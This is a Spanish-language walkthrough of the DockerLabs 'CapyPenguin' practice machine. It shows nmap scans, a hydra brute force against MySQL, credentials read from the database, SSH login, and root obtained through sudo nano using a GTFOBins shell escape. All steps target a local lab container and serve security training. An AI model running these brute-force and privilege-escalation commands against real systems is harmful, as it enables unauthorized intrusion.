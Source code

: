 ```yaml
---
title: CapyPenguin Writeup - DockerLabs
date: 2024-08-09
categories: [WriteUps, DockerLabs]
tags: [Linux, Easy, DockerLabs]
img_path: /assets/img/dck/capy_penguin/
image: /assets/img/dck/capy_penguin/capy_penguin.png
---
```


## Reconocimiento

Empezamos realizando un escaneo a la máquina objetivo con nmap, para ver que puertos tiene abiertos.

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
_______________________________________________________________________
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
```

---
Tiene abierto los puertos 22 (ssh), 80 (http) y 3306 (mysql). Ahora procedemos a lanzar un conjunto de script básicos y a verificar su versión.

```bash
nmap -sCV -p22,80,3306 172.17.0.2 -oN targeted 
_______________________________________________________________________
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e:6a:3f:89:de:9d:05:d9:94:32:73:8d:31:e0:a5:eb (ECDSA)
|_  256 e7:ef:4f:4a:25:86:c9:55:b0:88:0a:8c:79:03:d0:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Web de Capybaras
|_http-server-header: Apache/2.4.52 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
|   Thread ID: 35
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, IgnoreSigpipes, FoundRows, SupportsTransactions, LongColumnFlag, IgnoreSpaceBeforeParenthesis, ODBCClient, ConnectWithDatabase, SupportsLoadDataLocal, SupportsCompression, InteractiveClient, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: Hmof0ZTw|*X^NLqtr_fd
|_  Auth Plugin Name: mysql_native_password
```
---
## Enumeración

Como sabemos que tiene el servicio http corriendo por el puerto 80, vamos a revisar la página web en busca de información relevante, e incluso inspeccionar el código.

![capy_penguin-1](/assets/img/dck/capy_penguin/capy_penguin-1.png)

---
Encontramos a un posible usuario llamado "capybarauser", y que la contraseña se encuentra en las ultimas palabras del rockyou, y usaremos "tac" para que nos devuelva el contenido inverso.

```bash
tac /usr/share/wordlists/rockyou.txt > RockyouInvertido.txt
```
---

## Explotación

Ahora con ayuda de la herramienta hydra, procederemos a realizar un ataque de fuerza bruta al usuario "capybarauser" contra el servicio de mysql, usando este nuevo diccionario.

```bash
hydra -l capybarauser -P RockyouInvertido.txt mysql://172.17.0.2 -t 4
_______________________________________________________________________
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybarauser   password: ie168
1 of 1 target successfully completed, 1 valid password found
```
---
Logramos encontrar la contraseña, ahora procedemos a usar estas credenciales para conectarnos al mysql de la máquina objetivo.

```bash
mysql -h 172.17.0.2 -u capybarauser -pie168
_______________________________________________________________________
MariaDB [(none)]> 
```

Una vez dentro, comenzamos a enumerar la base de datos.

```sql
MariaDB [(none)]> SHOW DATABASES;
_______________________________________________________________________
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
5 rows in set (0.003 sec)
```

Encontramos la base de datos pinguinasio_db, así que usaremos esa y mostraremos las tablas.
```sql
MariaDB [(none)]> USE pinguinasio_db;
--------------------------------------------------
MariaDB [pinguinasio_db]> SHOW TABLES;
_______________________________________________________________________
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0.000 sec)
```

Vamos a ver todas las columnas de la tabla users.
```sql
MariaDB [pinguinasio_db]> SELECT * FROM users;
_______________________________________________________________________
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
1 row in set (0.000 sec)
```

---
Vemos que existe un usuario llamado "mario" con su contaseña "pinguinomolon123". Posiblemente podemos usarlo para conectarnos por SSH.

```bash
ssh mario@172.17.0.2
mario@172.17.0.2's password: pinguinomolon123
_______________________________________________________________________
mario@54bec2b5e6ff:~$ 
```

Logramos tener acceso a la máquina objetivo, ahora haremos un Tratamiento de la TTY para poder trabajar cómodamente por la consola.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 41 columns 183
```
---

## Escalada de Privilegios

Ahora procederemos a hacer una escala de privilegios. Lista los comandos que un usuario puede ejecutar con privilegios elevados.

```bash
mario@54bec2b5e6ff:~$ sudo -l
_______________________________________________________________________
    (ALL : ALL) NOPASSWD: /usr/bin/nano
```

Vemos que podemos ejecutar nano como el usuario root, sin proporcionar contraseña, nos ayudaremos de GTFObins para ver el procedimiento que debemos realizar.
```bash
sudo nano
# Adentro de Nano presionamos Ctrl+R y luego Ctrl+X
reset; bash 1>&0 2>&0
```

Y logramos conseguir ser root en la máquina objetivo.
```bash
root@54bec2b5e6ff:/home/mario# whoami
_______________________________________________________________________
root
```